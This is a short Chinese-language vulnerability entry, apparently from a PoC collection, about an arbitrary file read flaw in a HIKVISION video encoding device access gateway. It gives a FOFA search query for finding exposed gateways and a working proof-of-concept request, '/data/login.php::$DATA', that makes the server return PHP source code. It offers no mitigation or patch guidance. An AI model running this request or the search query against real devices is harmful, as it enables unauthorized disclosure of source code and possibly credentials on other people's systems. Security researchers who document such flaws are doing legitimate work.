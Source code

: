 # HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## FOFA

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628164956874-f53d9c48-6820-4c43-a3e5-aea8b6415ae8.png)

验证POC

```plain
/data/login.php::$DATA
```

![img](../../../.vuepress/public/img/1628165037205-928b64e5-2476-4511-afee-c562b17a031d.png)